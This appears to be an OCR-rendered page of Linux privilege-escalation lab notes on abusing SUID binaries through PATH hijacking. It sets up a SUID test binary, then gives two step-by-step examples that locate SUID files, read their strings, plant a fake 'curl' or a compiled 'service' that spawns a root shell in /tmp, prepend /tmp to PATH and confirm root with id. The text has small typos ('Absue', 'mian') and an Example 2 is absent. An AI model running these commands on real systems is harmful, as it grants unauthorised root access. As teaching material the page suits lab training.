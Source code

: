 ```
gcc test.c -o network-tester
chmod u+s network-tester
mv network-tester /bin/tools/
```
Example 1 (Without full bin path)

Privilege Escalation

```
Find the SUID Binary

find / -perm -u=s -type f 2>/dev/null | xargs ls -l
Output Example: /bin/tools/network-tester
ls -la /bin/tools/network-tester

Test the SUID Binary 

/bin/tools/network-tester
strings /bin/tools/network-tester
Output Example: curl -I 127.0.0.1 

Absue the SUID Binary

echo "/bin/bash" > /tmp/curl
chmod 777 /tmp/curl
echo $PATH
export PATH=/tmp:$PATH
/bin/tools/network-tester
id && whoami
```

Example 3 (Without full bin path)

Privilege Escalation

```
Find the SUID Binary

find / -perm -u=s -type f 2>/dev/null | xargs ls -l
Output Example: /bin/tools/webserver-status
ls -la /bin/tools/webserver-status

Test the SUID Binary 

/bin/tools/webserver-status
strings /bin/tools/webserver-status
Output Example: service apache2 status

Absue the SUID Binary

echo 'int mian() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
gcc /tmp/service.c -o /tmp/service
chmod 777 /tmp/service
export PATH=/tmp:$PATH
echo $PATH
/bin/tools/webserver-status
id && whoami
```
